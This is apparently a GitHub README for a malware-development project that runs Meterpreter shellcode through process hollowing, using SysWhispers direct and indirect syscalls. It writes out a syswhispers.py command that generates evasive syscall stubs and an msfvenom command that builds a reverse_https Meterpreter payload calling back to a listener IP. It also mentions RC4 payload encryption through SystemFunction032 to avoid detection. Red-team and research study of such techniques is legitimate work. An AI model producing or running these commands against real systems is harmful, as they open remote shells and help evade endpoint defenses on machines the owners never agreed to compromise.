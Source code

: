 # Overview
HUGE thank you to the Syswhipsers project and the MALDEV Academy team for getting my excited about these kinds of projects!

The `Syswhispers` branch is the syswhipers implementation

The `Indirect` branch is my attempt at an indirect systemcall implementation to run meterpreter shellcode via process hollowing

# Misc

Generating the syswhipers code:
```
python3 syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtResumeThread,NtWriteVirtualMemory,NtAllocateVirtualMemory,NtProtectVirtualMemory,NtReadVirtualMemory -o /home/noah/Desktop/MALDEV/modules/ProcessHollowing/syswhispers3_files -v
```
Payload:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.0.0.128 lport=443 exitfunc=thread -f raw > payload.raw
```

Payload into HellShell Rc4 decryptor using `SystemFunction032`

#Analysis

I'd like to do some more indepth analysis at a later point but I also included API calls of the Syswhispers implementation comparing direct & indirect systemcalls.
